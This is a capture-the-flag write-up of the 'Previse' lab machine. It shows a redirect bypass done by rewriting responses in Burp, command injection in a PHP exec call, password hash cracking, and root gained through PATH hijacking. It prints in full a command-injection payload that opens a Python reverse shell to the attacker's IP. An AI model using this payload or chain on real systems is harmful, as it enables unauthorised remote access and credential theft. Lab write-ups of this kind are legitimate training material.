

# 🪄 Previse Writeup


We start off this box, as always, with an nmap scan. We use -sV -sC for default scripts and version information.


Not many services running on this box it seems. We have an SSH port that we could possibly bruteforce if needed and an Apache webserver running on port 80. Of course we have to go investigate that. Plugging in the IP into our browser we are redirected to a login page.


Trying some basic SQL injection tricks doesn't get me anywhere so time to fire up dirbuster to see if there are any directories hidden from us.


Right away we get quite a few hits. A lot of the juicy directories seem to be 302 redirects though. Luckily for us there might be a way we can work around it. A while back I learned a trick where you can replace response headers and get around a redirect using BurpSuite. So lets give that a shot. Firing up Burp we start a temporary project and head over to the proxy tab. In here I am going to go over to options and down to the match and replace section. Here I add a rule to replace all '302 Found' with '200 OK' from the response headers going through Burp's proxy. It should look like this:



Once this is setup we go over to our browser and turn on the Burp proxy. For the first page lets try to reach accounts.php which seems juicy and provided a 302 response to dirbuster. I plug it in to the browser and we see burp light up. Just click forward and BAM, here we are on the accounts page!


It even says all in red that only admins should be on this page. Perfect! So what does this homepage have to offer us? Well we can see that we can add a new account, probably for that login page. We also see there is an accounts tab, a files tab, and a management menu tab. First lets get an account on the system and see what we can do. Once we create an account and login we are greeted with the homepage.


This is a file hosting platform. Interesting... This probably means there's some interesting stuff in the files tab so lets head over there. Upon loading up the page we can see there's a site backup zip file. After downloading and opening it we can see it contains all the back end parts of the website. This is huge! We can use this find potential vulnerabilities in the website and then exploit them.


Taking some time to read through each of the files is the most important thing now. Here are my notes from this:

* mySQL DB password for root in config.php
* SQLi through uploaded filename? Didn't work
* Comment in logs.php about python instead of PHP \[RED FLAG]

From my last note you can get where we wanna look first. Looking through logs.php you can see this line right here:

```
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

Big red flag. This exec function is running a python script along with our raw, unfiltered input. This input being the delim value. It looks to me like we can get this to execute out own commands for us and maybe get a reverse shell back. Using [revshells](https://www.revshells.com) I created a python payload to send. Here is the complete payload being sent in the request body to the log.php page:

```
delim=comma
export RHOST="10.10.14.23";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

Once I sent this I immediately got a shell back!


Once I got that shell I looked around a bit. Didn't seem like I had access to much. Now if you look back in my notes above you see that we found a mysql database password. That was my next move. Lets take a peek into that. Logging in using root and the password we found we can see that there is a database called 'previse'. Inside this we see there are two tables, accounts and files. Accounts is the more interesting so we ask it to describe the accounts table and see there are usernames and passwords. I ask it to print those out for us and we get:


We have my account that I created to login tot he page along with the owners account and hashed password. Hmm, could we crack it?

Looking at the hash it seems to be an MD5 hash but to figure out which type we are looking to crack we can checkout the [hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes). Looks like a 500 to me.


After letting hashcat rip for less than a second it finds the password. Using this we can maybe see if the same user on the webserver has reused this password.


It worked! We got the user flag but now to root the box. From running 'sudo -l' we get back this:

```
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Lets go investigate this access\_backup script. Unfortunately the script is read only but in it that binaries are called directly. This means that it could be vulnerable to path injection. To get this to work we need to create a script named gzip for it to run instead of the orginial gzip binary. To do this I created a gzip file in /tmp and in it I have a reverse shell that will call back to me when run. I then edited the system path variable to have it search for the binary being run in /tmp along with everywhere else. Because I appeded the tmp directory to the left side of the variable it will be run first because it reads left to right. Now all that's left to do is run it and hope for the best...


### PWNED!
